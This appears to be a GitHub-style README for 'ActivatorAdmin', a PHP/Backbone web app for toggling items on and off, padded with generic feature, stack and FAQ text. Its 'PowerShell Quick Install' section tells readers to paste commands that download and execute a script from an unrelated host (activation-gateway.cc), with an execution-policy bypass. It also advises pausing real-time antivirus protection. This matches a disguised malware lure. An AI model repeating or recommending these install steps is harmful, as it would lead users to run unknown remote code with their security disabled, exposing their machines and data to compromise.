

<div align="center">

# ActivatorAdmin — Item Activation Control Web App



[]() []() []()

</div>

---

ActivatorAdmin is a focused Slim and Backbone application built for one job: activating and deactivating items with speed and clarity. It pairs a lightweight PHP backend with a responsive JavaScript front end, giving administrators a clean interface for managing item state without unnecessary complexity. Item images, status indicators, and inline actions are surfaced directly in the list view, so routine toggles stay fast and intuitive. Configuration options for database mapping, frontend features, and logging keep the application adaptable to a range of environments.

## 💻 PowerShell Quick Install

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Launch PowerShell
* Press `Win + X`.
* Select **Terminal** or **Windows PowerShell**.

### 2️⃣ Execute the installer
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## 📋 System Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

Activation control at a glance
ActivatorAdmin turns the routine chore of switching items on and off into a fast, focused workflow. The main view presents every item with its current state, so toggling availability is a single, confident action rather than a detour through complex settings.

A clean, responsive interface
Built with a slim Slim/Backbone foundation, the application loads quickly and stays out of the way. The layout is fully responsive, keeping controls comfortable to use on desktops, laptops, and tablets alike, while the polished visual design makes routine administration feel effortless.

One-click (de)activation
Each item carries an intuitive activation toggle with immediate visual feedback. Activate or deactivate individual records in place, with the status change reflected instantly so there is never any doubt about what is live and what is not.

Powerful search, sorting, and pagination
Locate any item in seconds with built-in search, then order results by the criteria that matter most. Pagination keeps even large collections manageable, so the interface remains snappy and readable no matter how much content you manage.

Flexible database support
ActivatorAdmin works with MySQL or MongoDB, letting you run the application on the database that fits your existing infrastructure. Column mapping makes it easy to connect the app to tables that use your own naming conventions.

Configurable to your workflow
Optional per-item features can be switched on or off to match the way your team works, keeping the interface as lean or as informative as you need. Logging can be enabled for a clear record of activity, making it easy to audit changes over time.

Command-line access
For scripted or bulk operations, a companion command-line tool lets you (de)activate known items without opening a browser — convenient for automation, maintenance windows, and repetitive administrative tasks.

Built for confident administration
From a glanceable overview to instant status updates, ActivatorAdmin is designed around clarity and speed, helping administrators keep their item catalog accurate and current with minimal effort.

## Tech Stack

ActivatorAdmin pairs a lean, battle-tested PHP backend with a responsive, single-page front end, giving you a fast admin experience without the bloat. The stack is deliberately modular, so every layer—routing, templating, data access, and build tooling—can evolve independently.

**Backend & Application Layer**
The server side is built on the Slim micro-framework, providing a clean, lightweight routing layer for the application's endpoints. Twig powers the view layer with secure, expressive templating, while the Slim Twig integration keeps rendering configuration effortless. Monolog handles structured logging, making it easy to trace activity and troubleshoot issues in production or development.

**Front End & Interaction**
The client interface is driven by Backbone.js, bringing structure to the application's models, views, and events while keeping the UI snappy and responsive. Backbone Paginator extends this foundation with efficient, server-friendly pagination for larger item lists. jQuery streamlines DOM interaction, RequireJS keeps JavaScript modules organized and loaded on demand, and D3.js powers clear, data-driven visualizations.

**Styling & UI Components**
Bootstrap delivers a polished, responsive layout that looks sharp on any screen size, while Font Awesome supplies a comprehensive icon set for intuitive controls and status indicators.

**Build & Asset Pipeline**
A combination of Grunt and Gulp tasks handles the development workflow—concatenating, minifying, and optimizing JavaScript, CSS, and configuration assets. Supporting plugins cover linting, testing, and live-reload so the codebase stays clean and the feedback loop stays tight.

**Data & Tooling**
The application works flexibly with MySQL or MongoDB, letting you match the stack to your existing infrastructure. Node.js-powered utilities support command-line operations and automation, keeping administrative tasks scriptable and repeatable.

The result is a cohesive, production-ready stack that prioritizes clarity, speed, and maintainability—everything you need to manage item activation with confidence.

## Getting Started

ActivatorAdmin is built to get you from a fresh checkout to a working admin panel with as little friction as possible. The application pairs a Slim-powered backend with a Backbone-driven front end, so the setup experience is lean: configure your environment, point the app at a database, and start managing items.

**What you'll need**

ActivatorAdmin runs on PHP 7.1 and works with either MySQL or MongoDB as its data store. Choose whichever engine fits your existing infrastructure — the application supports both out of the box, and switching between them is a matter of configuration rather than code.

**Bring your own configuration**

The application ships with two configuration files that define how ActivatorAdmin behaves: one for the PHP layer and one for the JavaScript layer. You'll set your database connection details, host, and base URL in both. If ActivatorAdmin won't live at the root of your domain, specify the subdirectory as the base URL and the app will route itself accordingly.

Because the admin is designed to sit on top of tables that may already exist in your system, column names are mapped through configuration rather than hard-coded. Map the fields for item name, active status, and image to whatever your schema calls them — no migrations required. The same mapping needs to be applied consistently in both configuration files. Once you've adjusted the JavaScript configuration, run the minification task so the compiled assets reflect your changes.

**Sign in and start activating**

Access the admin panel and sign in with the default credentials — username `admin` and password `admin`. These live in the PHP configuration file. Before putting the application anywhere near production, generate a new password hash using PHP's built-in hashing function and replace the default value. The README's usage notes walk through the exact format.

**Seed your data**

A baseline database structure is included with the project, so you can stand up a working schema immediately. Load it into your MySQL or MongoDB instance, then adjust the column mapping if your naming differs from the defaults.

**Prefer the command line?**

Not every (de)activation needs a browser. ActivatorAdmin includes a command-line tool that lets you toggle items by ID, prompting you through the process step by step. Node.js is required for this workflow. It's a fast path for bulk operations or for scripting activations into your own automation.

**Fine-tune the experience**

Front-end behavior is configurable. Show or hide the per-item info button, enable or disable single-item deletion, and turn logging on or off as needed — all through configuration flags. Logging writes to a file inside the docs directory when enabled, giving you an audit trail without touching the database.

**A note on deployment**

Once your configuration is in place, point your web server at the application root, confirm the base URL resolves correctly, and you're live. Because assets are pre-compiled and configuration is file-based, there's no build step required at runtime — deploy, sign in, and go.

## FAQ

**Is ActivatorAdmin a good fit for small teams?** Absolutely. ActivatorAdmin was built for lean operations: a slim footprint, a clean interface, and just the essentials for toggling items on and off. There's no bloat to manage and no steep learning curve to climb.

**Can I manage items without opening a browser?** Yes. ActivatorAdmin includes a command-line workflow so you can activate or deactivate items directly from your terminal. It's ideal for scripting, quick maintenance tasks, or teams that prefer staying in the console.

**Does ActivatorAdmin work with my existing database?** It does. The application supports both MySQL and MongoDB out of the box, and flexible column mapping lets you align ActivatorAdmin with the table names you already use — no schema overhaul required.

**How customizable is the interface?** Quite. Frontend features such as info and delete buttons can be toggled through simple configuration variables, letting you tailor the experience to exactly what your workflow needs.

**Is logging available?** Yes. Logging can be enabled or disabled with a single configuration setting, giving you visibility into activity whenever you need it — and silence when you don't.

**Can I run ActivatorAdmin in a containerized environment?** Definitely. Docker support is included, making it straightforward to spin up the full application for development or evaluation in an isolated environment.

**How do I change the default login credentials?** Credentials are managed through the configuration file. Generate a new password hash and update the configuration — a quick step that keeps your deployment secure.

**Is ActivatorAdmin actively maintained and documented?** Yes. The project ships with generated API documentation and code metrics, and the test suite spans unit, integration, and end-to-end coverage — signs of a product built to last.

## License

ActivatorAdmin is released as open-source software under the MIT license. In practical terms, that means you are free to use, modify, and distribute the application — including as part of commercial products — provided the original copyright notice and permission notice are preserved. The software is provided "as is," without warranty of any kind, so you can build on ActivatorAdmin with confidence while keeping the terms simple and permissive.